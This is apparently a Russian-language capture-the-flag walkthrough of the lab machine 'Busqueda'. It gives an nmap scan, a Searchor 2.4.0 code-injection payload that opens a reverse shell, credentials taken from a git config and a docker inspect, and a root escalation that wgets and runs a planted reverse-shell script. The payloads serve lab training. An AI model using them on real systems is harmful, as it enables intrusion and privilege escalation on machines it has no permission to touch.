# Busqueda
:white_check_mark:  [**Searchor 2.4.0 exploit**](#searchor2.4.0)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV busqueda.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Из вывода nmap, мы можем заметить поддомен по которому доступен сайт: **searcher.htb**. Добавим его в /etc/hosts/.

<a name="searchor2.4.0"></a>

## Searchor 2.4.0 exploit

Главная страница сайта:



Внизу страницы мы можем найти версию веб-сервиса(Searchor 2.4.0):



В интернете мы можем найти [эксплоит](https://github.com/jonnyzar/POC-Searchor-2.4.2) для данной версии веб-сервиса.

Запускаем слушатель и отправляем полезную нагрузку:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.23',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Получаем обратную оболочку.



## Privesc

В директории с файламы сайта мы можем обнаружить директорию .git. Перейдем в нее и так обнаружим конфиг, в котором лежит пароль от нашего пользователя.




Просмотрим команды, которые мы можем выполнять от sudo.


Запустим скрипт system-checkup.py. Он нам дает подсказку по его использованию:


Команда full-checkup вызывает ошибку. Используем остальные две команды. Выведем список доступных контейнеров. Испектируем docker контейнеры.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```



Мы обнаружили пароль от gitea. Добавим поддомен(gitea.searcher.htb), который мы обнаружили ранее в /etc/hosts/. Перейдем на поддомен и залогинимся с известным паролем.



В репозитории мы можем обнаружить скрипт, который мы запускали ранее(system-checkup.py).



Данный скрипт запускает исполняемый файл full-checkup.py.



Создадим файл full-checkup.py на атакующей машине с кодом получения обратной оболочки.

```
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",5533));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

Запускаем веб-сервер на атакующей машине. Скачаем этот файл на атакуемую машину, выдадим ему права и запустим команду, которую мы можем запускать от sudo.

```
wget http://10.10.14.12:6666/full-checkup.sh && chmod +x full-checkup.sh && sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Получаем root.

